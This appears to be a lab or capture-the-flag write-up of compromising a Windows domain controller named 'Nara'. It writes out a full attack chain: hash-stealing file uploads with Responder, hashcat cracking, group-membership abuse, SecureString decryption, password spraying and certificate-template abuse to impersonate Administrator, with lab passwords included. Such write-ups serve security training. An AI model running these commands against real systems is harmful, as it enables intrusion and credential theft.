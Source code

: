 #InProgress 
```IP
192.168.249.30
```
# Enumeration
## SMB
```
nxc smb 192.168.249.30 -u 'guest' -p '' --shares
```
we can access and write some directories
```
smbclient //192.168.249.30/nara -U nara-security.com\guest
```
we find important.txt. We can deduct that some kind of phishing attack may work. I first tried with .exe or .odt to no avail.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163917.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163939.png?raw=true)
## Kerberos
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212163540.png?raw=true)
got some users
```
nara
administrator
guest
```
## HTTP

# Exploitation
with hashgrab.py we can force authentication to our machine if a user clicks on any of our generated files
https://github.com/xct/hashgrab
```
python hashgrab/hashgrab.py 192.168.45.189 hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212170454.png?raw=true)
we upload it to smb Documents and we get the hash with
```
sudo responder -I tun0
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212170708.png?raw=true)
We can crack it with hashcat
```
hashcat -m 5600 files/tracy.hash /usr/share/wordlists/rockyou.txt --force
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212171126.png?raw=true)
with nxc we can see some hits on rdp and ldap but it doesn't say pwned...
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212172000.png?raw=true)
we can't access but we can run bloodhound
```
bloodhound-python -d nara-security.com -c all -u tracy.white -p 'zqwj041FGX' -ns 192.168.249.30 --zip
```
We find out that we have generic all over remote access
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212175735.png?raw=true)
So we execute the following command in order to add tracy.white to group "remote access":
```
net rpc group addmem "Remote Access" "tracy.white" -U "nara-security.com"/"tracy.white"%"zqwj041FGX" -S "nara-security.com"
```
```
evil-winrm -i 192.168.249.30 -u tracy.white -p 'zqwj041FGX'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212175643.png?raw=true)

# PrivEsc

## Manual

right in the documents directory we can find the following file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212180025.png?raw=true)
seems like a hash.
Let's think as a user. the user encrypted here something, likely a password. Something he could have googled is "How to encrypt a password in windows powershell?"
If we google exactly that we get some answers as
https://medium.com/@josephjhinshaw/powershell-encryption-38a044db3942
Which have some powershell commands as `ConvertTo-SecureString`.
So the question we should google would be "How to decrypt powershell secure string?"
StackOverflow will give us the answer:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241212182706.png?raw=true)
https://stackoverflow.com/questions/7468389/powershell-decode-system-security-securestring-to-readable-password
We asume then that this is a standart ciphered string obtained with the convertfrom-securestring cmdlet. Following the commands below we can decrypt this encrypted string:
```
$credentials = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b'
```
```
$secure = convertTo-securestring -string $credentials
```
```
$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($secure)
```
```
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
```
```
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
```
```
$result
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213091156.png?raw=true)
We obtain the following string:
```
hHO_S9gff7ehXw
```
We will spray the password now. But first we need a complete user list. I've done this by bruteforcing the RIDs with nxc
```
nxc smb 192.168.132.30 -u 'tracy.white' -p 'zqwj041FGX' --rid-brute 3000 > users2.txt
```
After some data cleaning, we have our clean user list and we can use it to spray the password effectively
```
nxc winrm 192.168.132.30 -u users2.txt -p 'hHO_S9gff7ehXw'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213092921.png?raw=true)
We have pwned Jodie.Summers.
```
evil-winrm -i 192.168.132.30 -u jodie.summers -p 'hHO_S9gff7ehXw'
```
After some enumeration, we observe that jodie.summers belongs to Enrollment group:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131507.png?raw=true)
In the nmap scan we can see that this machine is also a Certificate Authority (CA).
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131213.png?raw=true)
We can check for CA related vulnerabilities with certipy-ad tool as shown below:
```
certipy-ad find -vulnerable -stdout -u Jodie.Summers@192.168.132.30 -p 'hHO_S9gff7ehXw'
```
In the official github webpage we can find how to leverage these attacks:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241213131321.png?raw=true)
The tool indicates that Enrollment group has dangerous permissions
```
certipy-ad req -username Jodie.Summers@192.168.132.30 -password hHO_S9gff7ehXw -ca NARA-CA -target nara-security.com -template NaraUser -upn Administrator@nara-security.com
```

## Automated

### Peass
### Mimikatz

# Lateral Movement
